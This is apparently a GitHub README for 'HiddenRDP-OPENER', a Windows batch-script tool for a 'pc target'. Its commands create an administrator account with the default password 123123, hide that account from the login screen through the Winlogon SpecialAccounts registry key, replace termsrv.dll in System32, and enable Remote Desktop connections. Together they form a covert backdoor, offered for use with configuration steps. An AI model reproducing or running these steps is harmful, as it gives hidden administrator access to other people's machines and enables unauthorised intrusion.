 # HiddenRDP-OPENER
This script make any windows compatible with RDP connection 

<h2>Requirements :</h2>
Windows 7 , Windows 8 , Windows 10 / Not tested yet in Windows XP

<h2>How it works ?:</h2>
This script create a hidden profil ( Administrator privilege ) and change registry parametre to make windows compatible with RDP Connection.

<h2>Configuration:</h2>

You need to open RDPScript.bat with your editor (in your pc)<br />
And make this changes :<br />
<h4>net user hidden 123123 /ADD </h4>
hidden = name of your created account<br />
123123 = password of your account <br />
<h4>xcopy "termsrv.dll" "%windir%\System32\" /s /h /q </h4>
change termsrv.dll with your full path (in pc target) , ex : C:\Users\comix\Downloads\termsrv.dll <br />
move termsrv.dll,RDPScript.bat in the pc target 

<h2>Delete configuration</h2>
Change this value in RDPScript.bat to delete the hidden profile from
<h4>REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v Hidden /t REG_DWORD /d 0X00000000 /f</h4>
To 
<h4>REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v Hidden /t REG_DWORD /d 0X00000001 /f</h4>
then you will be able to see your hidden profil
And change this line 
<h4>reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0X00000000 /f </h4>
to
<h4>
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0X00000001 /f
<h4>
<h2>License</h2>

Copyright © 2019 Soufiyan Ak (Comix)
